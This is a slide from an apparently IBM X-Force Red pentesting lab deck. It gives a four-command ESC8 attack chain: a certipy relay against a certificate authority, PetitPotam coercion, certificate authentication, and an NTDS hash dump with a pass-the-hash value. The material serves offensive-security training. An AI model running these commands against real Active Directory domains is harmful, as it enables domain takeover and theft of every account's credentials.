

# DA Privilege Escalation > Lab 5
ESC8 time! One of the quickest 0 to heroes in all of AD pentesting, have fun!
certipy relay -ca 172.16.14.221 -template DomainController
python3 /opt/PetitPotam/PetitPotam.py -d amradio.local yourIP 172.16.14.220 -pipe all
certipy auth -pfx mc-dc01.pfx -dc-ip 172.16.14.220
cme smb mc-dc01.amradio.local -u mc-dc01\$ -H 9f9996de61bb58afee5607d14f5b1b60 --ntds
IBM Security X-Force Red / © 2023 IBM Corporation
75